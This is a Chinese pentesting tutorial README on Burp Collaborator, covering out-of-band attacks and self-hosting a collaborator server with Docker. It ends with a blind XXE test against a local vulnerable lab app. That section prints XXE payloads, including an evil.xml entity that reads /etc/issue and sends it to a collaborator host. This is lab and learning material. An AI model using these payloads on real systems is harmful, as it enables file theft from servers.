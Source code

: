 # 0x1 Burp Collaborator的介绍
Burp suite Pro 自从v1.6.15版本开始引入了一种名为Burp Collaborator的模块，该模块的作用简单的说就是集合了DNS log, http_https log和smtp_smtps log的记录器，有点类似国内的Ceye平台。

为了解释这个模块，burp引入了In-band attack与 out-band attack（带内与带外攻击）两个概念，两者最主要的区别在于数据的流动方向和参与者的数量。

带内攻击(In-band attack)是平时最常见的渗透测试模型:

![](README/C7FA7BD0-9AF7-4139-9001-9E7CD5CFDB60%203.png)

通常在渗透测试过程中，无论是手工还是利用工具都是由攻击端发送含有payload的数据给被攻击端，然后校验被攻击端返回的数据。在这个模型中角色只有两个，流量只有两个信道。

带外攻击(out-band attack)则是Burp Collaborator的攻击模型

![](README/3FCA238E-6FB0-4C6F-8209-E933EDABE9EF%203.png)

在带外攻击中由攻击者发送有害流量到被攻击者，但是数据不会直接返回而是转向了第三方服务器，最后返回被攻击者。在带外攻击中，数据走三个信道，有三个角色。当然有时候第三方服务器和攻击者可以在同一个终端上

Burp Collaborator是一个c/s结构的服务器。在Project options->Misc->Burp Collaborator Server是配置、校验Burp Collaborator服务器的地方

而在Burp->Burp Collaborator Client是查看服务器信息的地方

# 0x2 Burp Collaborator Server的搭建
Burp Collaborator 是一个C/S结构的应用程序，C自然是burp的客户端，S则可以根据情况而定

## 0x01 Burp自带的服务器
Burpsuite自带了一个免费的服务器
前往Project options->Misc->Burp Collaborator Server 点击Run Health Check
![](README/381AD5A9-3930-4E9F-9AC9-746ED154537E%203.png)


![](README/F108D99E-8459-4EB8-A8B6-D24C5A7E428D%203.png)

然后前往 Burp->Burp Collaborator Client
![](README/BBB8F93D-3CB0-4E8B-AAE6-BCA4EF014D50%203.png)

![](README/4C15AEBD-2349-42AC-9182-1A2F8EE2864D%203.png)

单击Copy  to clipboard,
![](README/AE96D3AC-192F-4EFC-907F-993C6E17A9DC%203.png)
然后前往界面,可以看到DNSlog和HTTP log
![](README/6CA98CDF-D923-4529-8357-03B41256D773%203.png)


## 0x02 自建服务器
Burp Collaborator 允许自建服务器，而且自建Collaborator 服务器是不需要Pro授权的。自建服务器根据具体的网络分为两种

###  0x001 内网

优点:方便灵活，在无网络的情况下(比如CTF比赛和内网测试)也可以使用
缺点:无DNS  log，https log和 smtps log

搭建内网环境已经封装成了docker，前往Docker_Server_Inner目录下
```shell
docker-compose build
docker-compose up -d
```

![](README/2A980454-8C06-4489-AFB4-EE9F87C6FD01%203.png)

![](README/58710DE1-F9AC-4F34-9860-EC0B67C28B78%203.png)

然后copy
![](README/F3735BC0-1F39-44E9-96BF-F141F9C184B7%203.png)


![](README/42977B01-575A-4B0A-B555-CF2FE1D56C60%203.png)

![](README/B7A5F83E-31F8-42E5-8341-B57B04B03E92%203.png)


### 0x002 外网
与内网搭建相比，外网就比较麻烦了

所需材料:
1. VPS 
2. 域名:(从godaddy买的，然后移交到了cloudflare下进行控制),以my-subdomain-for-burp.luffy.com为例(假域名，需要改成自己的二级域名)
3. LetsEncrypt(免费的ssl加密证书)
4. Burp Suite Pro
5. Docker

#### 0x0001 配置SSL证书

```shell
wget https://raw.githubusercontent.com/certbot/certbot/master/certbot-auto -O /usr/local/bin/certbot-auto
chmod a+x /usr/local/bin/certbot-auto
certbot-auto
certbot-auto certonly -d my-subdomain-for-burp.luffy.com -d *.my-subdomain-for-burp.luffy.com  --server https://acme-v02.api.letsencrypt.org/directory --manual --agree-tos  --email=you-email@qq.com --manual-public-ip-logging-ok --preferred-challenges dns-01
```

![](README/4037451E-9ECA-4D99-BF10-AB8FEC44176B%203.png)

然后前往cloudflare添加两个TXT记录
_acme-challenge.my-subdomain-for-burp.luffy.com -> en9Gf...
_acme-challenge.my-subdomain-for-burp.luffy.com -> Ffzzws...
![](README/168E4A46-EA4E-4384-A3C8-ECB856F77A44%203.png)


最后生成的证书默认是放在_etc_letsencrypt/目录下的

#### 0x0002 Burp Collaborator Server的配置
将Docker_Server_Internet整个目录上传到VPS上，然后编辑docker-compose.yml
![](README/A39F09DA-CC17-4CA7-AA28-90263E2E4F56%202.png)

将域名和IP改成对应的二级域名和VPS公网IP地址

```shell
docker-compose build
docker-compose up -d
```

![](README/25C68495-FF80-4AF9-892E-3FF3DDCF5BC8%203.png)


#### 0x0003 修改A记录和NS记录
1. NS 记录指向 ns1.my-subdomain-for-burp.luffy.com
2. A 记录指向公网IP

![](README/BC3D1EB4-DAFB-4707-9164-CFFB2E3DD720%203.png)


然后测试，前往Project options->Misc->Burp Collaborator Server 点击Run Health Check
![](README/09448415-E6DA-4B94-91D9-904F5E738544%203.png)

利用curl测试一下
![](README/2CF5A69C-6408-4347-B876-B76572C1135A%203.png)

![](README/42178470-41B5-44CF-B002-7A4B65FF63DD%203.png)

测试成功。

但是Burp Collaborator有一个缺点就是数据无法持久化，Burp Suite 不可能保存Collaborator的上下文。关闭client那么所有的数据就丢失了。现在也只能期待以后Burp会添加这方面的功能了。

现在为止有一个很好的折衷的方案就是在自建的服务器上开启DEBUG功能(我在docker中已经启用了)，查看log信息，Burp自带的服务器就不可能实现了

![](README/16898577-11B4-4192-BD95-1D7FDA096EC4%202.png)

我把日志内容导向到了logs目录下的burp.log文件


# 0x3 漏洞测试
## 0x01 XXE
前往Docker_vul_JavaVulnerableLab.这个XXE是回显式的 不过我按照盲注的方式测试


```shell
docker-compose build
docker-compose up -d
```

启用之后访问 http://127.0.0.1:8080/vulnerability/Injection/xxe.jsp

标准的请求
![](README/0D2ADFB3-BF5E-48B9-BD73-57568AA5FD30.png)

回显的payload
![](README/FF208C58-2819-4E8C-B4A7-EDF7083FEEC8.png)

忙注的校验漏洞的PAYLOAD
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE ANY [<!ENTITY hello SYSTEM "http://cfv17n86l6ri6atl5kbebbxaa1gr4g.burpcollaborator.net">]><users><username>Neo&hello;</username><email>neo@matrix</email></users>
```


![](README/BF60D28F-DF32-49A3-9427-A23C8D56127D.png)


实现文件读取



新建一个evil.xml文件，放在web目录下


```xml
<!ENTITY % file SYSTEM "file:///etc/issue">
<!ENTITY % ent "<!ENTITY data SYSTEM 'http://tzwwz7vl66d1gir1nzihuc4hd8jy7n.burpcollaborator.net/%file;'>">
```

然后修改POST包
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxegsd76 SYSTEM "http://172.168.46.145:6080/evil.xml"> %xxegsd76; %ent; ]><users><username>Neo&data;</username><email>neo@matrix</email></users>
```

![](README/5754DB47-E47C-466B-80B2-60375DA3FA19.png)



引用链接
[Introducing Burp Collaborator | Blog](https://portswigger.net/blog/introducing-burp-collaborator)
[Burpsuite之Burp Collaborator模块介绍 - 小小leo - 博客园](https://www.cnblogs.com/xiaoxiaoleo/p/5724947.html?utm_source=itdadao&utm_medium=referral)
[Running Your Instance of Burp Collaborator Server - Fabio Pires](https://blog.fabiopires.pt/running-your-instance-of-burp-collaborator-server/)
[Deploying a private Burp Collaborator server](https://portswigger.net/burp/documentation/collaborator/deploying)
[Burp Collaborator资源整合 - blacksunny - 博客园](https://www.cnblogs.com/blacksunny/p/8023878.html)
[DNSLog在渗透中的使用 | AdminTony's Blog](http://www.admintony.com/DNSLog%E5%9C%A8%E6%B8%97%E9%80%8F%E4%B8%AD%E7%9A%84%E4%BD%BF%E7%94%A8.html)
[从 blind XXE 到读取根目录文件](https://paper.tuisec.win/detail/77e971804021874)
[XXE總結 - 掃文資訊](https://hk.saowen.com/a/55b8087bf5c735d6aa7bed67999c487dbd604641d93a6c6353af2af34ce94499)
[XXE总结（小部分自己的）](http://blog.leanote.com/post/xuxi/XXE%E6%80%BB%E7%BB%93)
[從 blind XXE 到讀取根目錄文件 - 掃文資訊](https://tw.saowen.com/a/7ef453e1d9c1d13380d9e6b5a45794537ed9e7c248c0a957a16c096634c4f6a6)